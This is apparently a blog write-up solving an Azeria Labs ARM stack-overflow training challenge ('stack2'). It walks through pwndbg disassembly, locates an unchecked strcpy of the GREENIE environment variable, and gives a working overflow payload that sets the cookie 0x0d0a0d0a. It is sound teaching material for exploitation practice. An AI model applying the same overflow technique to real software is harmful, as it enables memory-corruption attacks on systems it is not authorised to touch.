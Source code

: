 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part III"
---
```


Another fast moving post
about exploiting the [third Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Setup

Stack allocation, not changes respect `stack0` or `stack1`.

```nasm
pwndbg> pdisass &main
 ► 0x104e4 <main>       push   {fp, lr}
   0x104e8 <main+4>     add    fp, sp, #4
   0x104ec <main+8>     sub    sp, sp, #0x50
   0x104f0 <main+12>    str    r0, [fp, #-0x50]
   0x104f4 <main+16>    str    r1, [fp, #-0x54]
```

Read of an environment variable named `"GREENIE"`:

```nasm
   0x104f8 <main+20>    ldr    r0, [pc, #0x6c]
   0x104fc <main+24>    bl     #getenv@plt <getenv@plt>

pwndbg> x/1wx 0x1056c
0x1056c <main+136>:     0x000105f4

pwndbg> x/1sb 0x000105f4
0x105f4:        "GREENIE"
```

The value is stored in the stack, loaded from it and
then compared with 0. In other words the program checks if `getenv`
returned `NULL` or not.

```nasm
   0x10500 <main+28>    str    r0, [fp, #-8]
   0x10504 <main+32>    ldr    r3, [fp, #-8]
   0x10508 <main+36>    cmp    r3, #0
   0x1050c <main+40>    bne    #main+56 <main+56>
```

## The vulnerability

Following the *taken* branch we find the vulnerable `strcpy` call
that copies the content of the environment variable into a buffer in the
stack.

```nasm
 ► 0x1051c <main+56>    mov    r3, #0
   0x10520 <main+60>    str    r3, [fp, #-0xc]
   0x10524 <main+64>    sub    r3, fp, #0x4c
   0x10528 <main+68>    mov    r0, r3
   0x1052c <main+72>    ldr    r1, [fp, #-8]
   0x10530 <main+76>    bl     #strcpy@plt <strcpy@plt>
```

This is the memory layout of the stack before the call to `strcpy`:

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == char **argv
        |   \xdd\xdd\xdd\xdd   == int argc
buf ----|-->AAAA
  0x50  |   BBBB
        |   CCCC
        |   ... 13 more rows full of garbage ...
cookie----->\x00\x00\x00\x00   == explicit 0 set
ptr env-|-->\xcc\xcc\xcc\xcc   == char *env_var
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

After the call the cookie is checked against 0x0d0a0d0a:

```nasm
   0x10534 <main+80>    ldr    r3, [fp, #-0xc]
   0x10538 <main+84>    ldr    r2, [pc, #0x34]
   0x1053c <main+88>    cmp    r3, r2
   0x10540 <main+92>    bne    #main+108 <main+108>

pwndbg> x/1wx 0x10574
0x10574 <main+144>:     0x0d0a0d0a
```

Following the path if the branch is **not** taken:

```nasm
pwndbg> pdisass &main+96
 ► 0x10544 <main+96>     ldr    r0, [pc, #0x2c]
   0x10548 <main+100>    bl     #puts@plt <puts@plt>

   0x1054c <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10578
0x10578 <main+148>:     0x0001062c

pwndbg> x/1sb 0x0001062c
0x1062c:        "you have correctly modified the variable"
```

## The solution

To win we need 0x40 bytes for padding and the cookie `"\n\r\n\r"`.

```shell
pi@raspberrypi:~$ GREENIE="$(echo -en 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\r\n\r')" ./stack2
you have correctly modified the variable
```
